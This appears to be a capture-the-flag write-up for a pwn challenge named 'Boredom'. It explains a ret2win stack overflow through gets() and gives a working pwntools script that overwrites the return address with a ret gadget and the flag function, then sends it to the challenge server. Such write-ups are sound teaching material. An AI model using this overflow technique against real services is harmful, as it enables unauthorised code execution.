 # Boredom

Simple ret2win. It calls gets on rbp-0xd0, and there's a function called flag that grabs the flag from flag.txt

0xd0 + 8 bytes of padding + address of ret + flag function. Address of ret is needed on remote because stack alignment is a bitch

```python
from pwn import *
NUM_TO_RET = 0xd0 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./boredom")
payload = flat(padding, 0x000000000040101a, e.symbols['flag'] , word_size=64)
#p = e.process()
p = remote('pwn.hsctf.com', 5002)
p.sendline(payload)
p.interactive()
```


